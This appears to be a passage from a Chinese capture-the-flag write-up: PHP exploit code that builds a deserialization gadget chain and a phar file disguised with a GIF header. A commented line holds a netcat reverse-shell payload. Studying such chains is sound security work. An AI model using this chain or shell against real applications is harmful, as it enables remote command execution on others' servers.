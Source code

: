     
        public function __invoke(){
            if(!preg_match("/cat|tac|more|tail|base/i", $this->zi)){
                if($this->expired){
                    # todo 执行 system 但是没有回显
                    system($this->zi);
                }
                else{
                    die("不是你配吗要我的课程。。。");
                }
            }
            else{
                die("不是你配吗要我的课程。。");
            }
        }
    }
    class Jing_Ying
    {
        public $tiao;
        public $qiang;
    
        public function __toString(){
            return $this->tiao->jumping_gun;
        }
    
        public function __get($arg1){
            $shaoyu = $this->qiang;
            return $shaoyu();
        }
    }
    # todo He_Ping::__invoke(this->zi=payload) <= Jing_Ying::__get(),其中 qiang = He_Ping <= Jing_Ying::__toString()，其中 tiao 取递归 <= He_Ping::_destruct
    $he_Ping = new He_Ping();
    $jing_Ying = new Jing_Ying();
    $jing_Ying->qiang = $he_Ping;
    $jing_Ying->tiao = $jing_ying;
    $he_Ping->u = $jing_ying;
    # 原先本地试了一下，发现 __destruct 没有执行，后来知道要触发垃圾回收 GC 机制
    $b = array($he_Ping, 0);
    
    # 网上拷过来的 phar 文件生成
    @unlink("phar.phar");
    $phar = new Phar("phar.phar");
    $phar->startBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头
    //$phar->setMetadata('O:7:"He_Ping":4:{s:7:"expired";b:1;s:1:"u";N;s:2:"zi";s:31:"nc ip 10000 -e /bin/sh";}'); //将自定义meta-data存入manifest
    $phar->setMetadata($b); //将自定义meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
    ```
